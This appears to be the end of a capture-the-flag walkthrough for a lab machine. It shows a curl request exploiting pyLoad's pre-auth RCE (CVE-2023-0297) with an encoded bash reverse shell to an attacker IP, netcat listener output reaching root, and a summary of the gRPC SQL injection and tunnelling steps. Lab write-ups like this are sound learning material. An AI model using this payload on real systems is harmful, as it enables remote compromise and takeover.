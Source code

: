 ```console

+ curl -i -s -k -X POST --data-binary 'jk=pyimport%20os;os.system("bash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.10.16.5%2F443%200%3E%261%27");f=function%20f2(){};&package=xxx&crypted=AAAA&&passwords=aaaa' http://localhost:8000/flash/addcrypted2
```

On the listener:

```console
$ nc -lnvp 443
listening on [any] 443 ...
connect to [10.10.16.5] from (UNKNOWN) [10.10.11.214] 36646
bash: cannot set terminal process group (1052): Inappropriate ioctl for device
bash: no job control in this shell
root@pc:~/.pyload/data# cat /root/root.txt
cat /root/root.txt
88473f[...]
```

## Summary

The gRPC service allows registering users, although "admin:admin" also works. Check for a token header in the response, and send then to the `.getInfo` method.

With the correct token, the response will contain a Python error based on the `id` field. This allows a sqlite3 injection to dump the `accounts` database. There's a user named `sau` with a password `HereIs[…]`.

With access to services listening on `localhost` (`ssh` tunneling) a service called Pyload is accessible. It has [a preauth RCE](https://nvd.nist.gov/vuln/detail/CVE-2023-0297) allowing code to execute as `root`.
